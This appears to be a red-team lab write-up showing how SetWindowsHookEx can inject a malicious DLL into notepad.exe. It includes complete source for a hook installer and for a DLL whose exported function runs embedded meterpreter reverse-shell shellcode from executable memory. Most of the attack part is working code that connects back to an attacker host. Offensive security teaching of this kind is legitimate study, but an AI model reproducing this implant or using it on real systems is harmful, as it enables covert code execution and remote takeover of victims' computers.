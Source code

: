 ```yaml
---
layout: post
title: "setwindowhookex code injection"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /code-injection-process-injection/
---
```


# SetWindowHookEx Code Injection

Windows allow programs to install hooks to monitor various system events such as mouse clicks and keyboard key presses by using `SetWindowHookEx`.

In this lab `SetWindowHookEx` is used to inject a malicious DLL into notepad.exe, which then executes  meterpreter shellcode.

## Overview

The workflow of the technique is as follows:

1. Create a malicious DLL that exports one function, which when invoked, executes meterpreter shellcode
2. Create another program that loads the malicious binary by:
   1. Resolving address of the exported function
   2. Installing a keyboard hook. The hook is then pointed to the exported function
3. Notepad.exe is launched by the victim and a keypress is registered
4. Since keyboard events are hooked, notepad.exe loads in our malicious dll and invokes the exported function
5. Metepreter session is established on the attacking system

## Execution

Let's create a DLL with an export a function `spotlessExport` that executes meterpreter shellcode when invoked:

![](<../../.gitbook/assets/Annotation 2019-05-28 220920.png>)

Compile the DLL and check if the export was successful. We can use `dumpbin.exe` to do this, but first we need to find it (if we have Visual Studio installed):

```csharp
cmd /c dir /s/b c:\dumpbin*
```

![](<../../.gitbook/assets/Annotation 2019-05-28 221427.png>)

Then use it like so to dump the exported functions:

```
dumpbin.exe dllhook.dll /exports
```

Below shows the output of exported functions for `dllhook.dll` as presented by `CFF Explorer` (left) and dumpin:

![](<../../.gitbook/assets/Annotation 2019-05-28 221340.png>)

## Demo

Below shows the technique in action:

* Process Explorer (top right) with notepad (bottom right) selected
* In the middle - the code that installs the hook to all threads that are in the same desktop as the calling thread
* Attacking system with multi-handler on the left - ready to catch the meterpreter
* Once the hook is installed and a key is pressed in when notepad is in focus, `dllhook.dll` is loaded into `notepad.exe` process and our malicious exported function `exportedSpotless` is executed, which in turn results in a meterpreter shell

![](../../.gitbook/assets/hookdll.gif)

## Code

Both `hooks.cpp` and `dllhook.cpp` are provided below:

{% tabs %}
{% tab title="hooks.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>

int main()
{
	HMODULE library = LoadLibraryA("dllhook.dll");
	HOOKPROC hookProc = (HOOKPROC)GetProcAddress(library, "spotlessExport");

	HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, hookProc, library, 0);
	Sleep(10*1000);
	UnhookWindowsHookEx(hook);

	return 0;
}
```
{% endtab %}

{% tab title="dllhook.cpp" %}
```cpp
#include "stdafx.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
	case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

extern "C" __declspec(dllexport) int spotlessExport() {
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";

	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();
	
	return 0;
}
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winuser/nf-winuser-setwindowshookexa" %}

{% embed url="https://docs.microsoft.com/en-us/cpp/build/exporting-from-a-dll-using-declspec-dllexport?view=vs-2019" %}
@spotheplanet

